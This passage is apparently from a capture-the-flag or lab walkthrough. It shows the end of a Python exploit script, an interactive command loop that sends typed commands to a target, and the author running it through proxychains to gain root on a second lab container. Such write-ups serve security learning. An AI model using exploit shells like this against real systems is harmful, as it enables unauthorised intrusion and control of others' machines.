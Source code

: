 ```python
        cmd = raw_input("~$ ")
        if cmd == "exit":
            sys.exit("{!} Shell exiting!")
        else:
            execute_command(target=target, command=cmd)

def main(args):
    banner()
    if len(args) != 2:
        sys.exit("Use: %s target" %(args[0]))
    exploit(target=args[1])

if __name__ == "__main__":
        main(args=sys.argv)

```

There is a hodge-podge of crap going on with this exploit, but the most important thing to note is when we run it we do not need to specify HTTP/HTTPS or the destination port as it is already specified for us. It matches up with what we see on the 172.20.0.124 container, so we'll leave it as is. Let's chuck this thing through proxychains and see what happens:

![screenshot](/assets/images/safeharbor/container2_root.PNG)

Awesome, we have root on a new container. Let's grab some basic info on this container in case it's useful later:

![screenshot](/assets/images/safeharbor/container2_hostinfo.PNG)

## Container 3 - Post-Exploitation
